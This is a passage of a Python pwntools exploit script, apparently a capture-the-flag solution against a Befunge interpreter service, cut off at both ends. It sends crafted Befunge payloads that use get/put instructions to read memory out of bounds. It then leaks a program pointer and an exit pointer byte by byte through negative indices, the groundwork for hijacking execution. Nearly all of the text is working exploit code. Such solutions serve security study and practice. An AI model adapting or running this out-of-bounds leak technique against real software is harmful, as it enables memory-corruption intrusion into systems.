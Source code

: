     r.recvuntil('> ')
    payload = ('>&&&*&+g,&&&*&+g,&&&*&+g,&&&*&+g,&&&*&+g,&&&*&+g,').ljust(0x4f, "A") + 'v'
    r.sendline(payload)

    r.recvuntil('> ')
    payload = (('<&&&&*&+p&&&&*&+p&&&&*&+p&&&&*&+p&&&&*&+p&&&&*&+p').ljust(0x4f, "A")+'v')[::-1]
    r.sendline(payload)

    r.recvuntil('> ')
    payload = ('>&&&&*&+p&&&&*&+p&&&&*&+p&&&&*&+p&&&&*&+p&&&&*&+p').ljust(0x4f, "A") + 'v'
    r.sendline(payload)

    r.recvuntil('> ')
    payload = (('<&&&&*&+p&&&&*&+p&&&&*&+p&&&&*&+p&&&&*&+p&&&&*&+p').ljust(0x4f, "A")+'v')[::-1]
    r.sendline(payload)

    r.recvuntil('> ')
    payload = '>v'
    r.sendline(payload)

    r.recvuntil('> ')
    payload = '^<'
    r.sendline(payload)


    for i in range(17):
        r.recvuntil('> ')
        r.send("\n")

    r.sendline('-16')
    r.sendline('-1')
    program_ptr = r.recv(1)
    r.sendline('-15')
    r.sendline('-1')
    program_ptr += r.recv(1)
    r.sendline('-14')
    r.sendline('-1')
    program_ptr += r.recv(1)
    r.sendline('-13')
    r.sendline('-1')
    program_ptr += r.recv(1)
    r.sendline('-12')
    r.sendline('-1')
    program_ptr += r.recv(1)
    r.sendline('-11')
    r.sendline('-1')
    program_ptr += r.recv(1)
    program_ptr += "\x00\x00"
    program_ptr = u64(program_ptr)
    log.info("Program: " + hex(program_ptr))
    r.sendline('-64')
    r.sendline('-1')
    exit_ptr = r.recv(1)
    r.sendline('-63')
    r.sendline('-1')
    exit_ptr += r.recv(1)
    r.sendline('-62')
    r.sendline('-1')
    exit_ptr += r.recv(1)
    r.sendline('-61')
    r.sendline('-1')
    exit_ptr += r.recv(1)
    r.sendline('-60')
    r.sendline('-1')
    exit_ptr += r.recv(1)
    r.sendline('-59')
    r.sendline('-1')